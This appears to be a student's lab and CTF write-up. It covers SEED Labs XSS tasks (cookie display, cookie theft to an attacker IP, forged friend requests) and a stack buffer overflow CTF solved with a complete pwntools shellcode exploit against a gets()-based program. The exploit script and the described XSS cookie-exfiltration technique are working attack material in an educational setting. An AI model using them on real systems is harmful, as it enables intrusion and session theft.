# **Week #10**

## **SEEDs Lab**

### **Task 1**

*  **Posting a Malicious Message to Display an Alert Window**

* We first write the following JavaScript code into the *"about me"* field of Alice.

| **Web Application**|
| :----------:|
|  |

* After we save the changes, the profile displays a pop up with the word *"XSS"*, the one we wrote in the alert. 

| **Web Application**  |
| :------------:|
|  |


### **Task 2**

* **Posting a Malicious Message to Display Cookies**

* We changed the previous code to the following, and wrote it into the *"brief description"* field of Boby in order to display the current cookie value in the session.

| **Web Application**|
| :----------:|
|  |

* As soon as we save this changes, the profile displays Boby's cookie value and his brief description is empty, so the JavaScript code was executed. 

| **Web Application**|
| :----------:|
|  |


### **Task 3**

* **Stealing Cookies from the Victim’s Machine**

* In the previous task, the cookies could only be seen by the user, not by the atacker.

* In order to get the cookie of the victim to the atacker, we write the following code into the atacker's (Alice) *"about me"* field. It sends the cookies to the port 5555 of the ip 10.9.0.1

| **Web Application**|
| :----------:|
|  |

* We are able to get the cookies value when we log in as Boby and visit Alice's profile.

**Web Application** | **Web Application**
:---------:|:---------:
 | 

| **Web Application**|
| :----------:|
|  |

* When the injected code insert the img tag, the browser tries to load the image from the **url** in the **src** field. This results in an HTTP GET request sent to the attacker's machine. 


### **Task 4**

* **Becoming the Victim’s Friend**

* To create our **HTTP GET** request to make friends, we logged in as Alice and added Samy as a friend in order to
see how the request looks like.

| **Web Application**|
| :----------:|
|  |

* We can see that friend has a value of 59 so we understand that guid of Samy is 59.

* In order to create the request we added the following code into the *"About me"* section in Samy's profile.

| **Web Application**|
| :----------:|
|  |

* We log out and log in as the victim Alice and visit Samy's profile to see if Samy's is added as a friend.

**Web Application** | **Web Application**
:---------:|:---------:
 | 

| **Web Application**|
| :----------:|
|  |

* As we can see Samy's was successfully added to Alice's Friends.

* **Question 1**: Explain the purpose of Lines ➀ and ➁, why are they are needed?

    * The lines ➀ and ➁ are needed because if we dont have the secret token and timestamp value of the website attached to the request, this will not be considered legitimate and hence will throw out an error and our atack won't be successful.

* **Question** 2: If the Elgg application only provide the Editor mode for the "About Me" field, i.e.,
you cannot switch to the Text mode, can you still launch a successful attack?

    * No, we won't be able to launch a successful atack because this mode encodes any special character in the input. Since, for our code we need to have <script>@</script> and other tags, all of them will be encoded into data and the code won't be executed.


## **CTF 10**

## **Taks 1**

The strategy to solve this CTF was using XSS attack, and waiting 2 minutes for the administrator approval, therefore getting the flag.

### **Triggering and alert using the XSS vulnerabiltity**

|Script| Alert Trigger |
|:---------:|:---------:|
| | | 

### **Using XSS to click on disabled button**
|Script| WebPage  |
|:---------:|:---------:|
| | | 

### **Getting the flag**

According to the CTF guide the page refresh every 5 seconds, and the administrator approval migth take 2 minutes. Therefore after triggering the disabled button click, we waited 2 minutes and the flag popped in the screen.

| WebPage |
|:---------:|
| | 


## **Task 2**

### **Checksec**

* 32bits architecture 
* No RELRO
* No stack canary found
* NX disabled 
* Address Randomization enabled
* Has RWX segments

### **Attack analysis**

By running **checksec** in the binary we can see, that NX is disabled and PIE is enabled. Therefore, we know that
 addresses will be randomized in each execution so we need to play around that. Since NX is disabled, we will probably have to inject some shellcode.

|Terminal 1 |
|:---------:|
| | 

### **Code analysis**

Since we have the source code, we don't need to use ghydra to reverse engineer the binary nor dissamble the main function, to find the vulnerability. We have a **BOF** vulnerability in __gets()__ function, where we can read more than 100 bits to a buffer that only takes 100 bits, therefore causing a crash, and a possible exploitation.

```c
    #include <stdio.h>
    #include <stdlib.h>

    int main() {
        char buffer[100];

        printf("Try to control this program.\n");
        printf("Your buffer is %p.\n", buffer);
        printf("Give me your input:\n");
        fflush(stdout);
    
        gets(buffer);
        
        return 0;
    }
```
### **Executing the binary**

By executing the binary given, we see that we get a base stack address leak and we will work around that to defeat the address randomization, therefore bypassing the **PIE** protection.

|Terminal 1 |
|:---------:|
| | 

### **Find the offset between the buffer and EIP**

We will now see how many characters we need to write from the base address to start overwritting the instruction pointer. To calculate this we used **GDB** pattern create tool to find this offset. To verify if **GDB** **EIP** offset was correct we used **radare2 wop0**, and found that **GDB EIP** offset was off by 1. Being **108 bits** the correct offset.

|Terminal 1 |
|:---------:|
|  | 

### **Writing the exploit in a cleaver way**

We see that the distance between the base address and the EIP is 108.

So our stategy will be:
* Given that we have the leaked stack base address, we will insert the shellcode, crafted using python pwn tools package, then overwrite the buffer until we get to **EIP** and then overwrite **EIP** with the leaked base address, therefore redirecting our code to the shellcode, that is in the leaked stack base address.

```python
    from pwn import *
    import re

    from pwnlib.adb.adb import shell

    #p = process("./program")

    e = context.binary = ELF("./program")
    p = remote("ctf-fsi.fe.up.pt",4001)

    #gdb.attach(p.pid)

    shellcode = asm(shellcraft.sh())

    p.recvuntil("buffer is ")

    stack_base = int(p.recv(10),16)

    payload = asm(shellcraft.sh())

    payload = payload.ljust(108,b'A')

    payload += p32(stack_base)

    p.sendlineafter("input:",payload)
    p.interactive()
```
